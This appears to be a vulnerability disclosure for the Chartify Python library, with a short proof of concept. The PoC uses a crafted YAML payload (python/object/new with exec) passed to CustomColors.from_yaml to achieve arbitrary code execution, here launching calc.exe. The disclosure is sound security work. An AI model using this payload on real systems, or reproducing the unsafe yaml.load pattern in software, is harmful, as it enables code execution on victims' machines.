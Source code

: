 # Description

**Chartify** is a Python library that makes it easy for data scientists to create charts.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>

repo: https://github.com/spotify/chartify

# Proof of Concept

```python
#!/usr/bin/env python3
from chartify._core.colors import *

payload = '''
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
'''
open('pwn.yml', 'w+').write(payload)

CustomColors.from_yaml('hek', 'pwn.yml')
print("pwned 🏴")
```

* `pip3 install chartify`
* `python3 exploit.py`
